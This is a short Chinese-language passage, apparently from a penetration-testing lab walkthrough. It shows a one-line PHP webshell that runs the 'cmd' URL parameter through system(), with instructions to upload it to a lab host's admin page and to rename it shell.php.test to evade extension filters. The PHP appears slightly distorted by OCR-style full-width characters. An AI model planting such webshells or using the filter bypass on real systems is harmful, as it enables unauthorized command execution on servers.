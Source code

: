 
二、植入webshell

使用以下webshell代码，在victim中执行命令：
```txt
<？php 
  system（$ _ GET ['cmd']）; 
？>
```

将其命名为shell.php，并在```10.0.2.10/admin/new.php```页面上传代码

![image](18.jpg)

为了防止网站过滤 .php 结尾的文件，将文件重命名为shell.php.test

上传之前的页面：

![image](19.jpg)
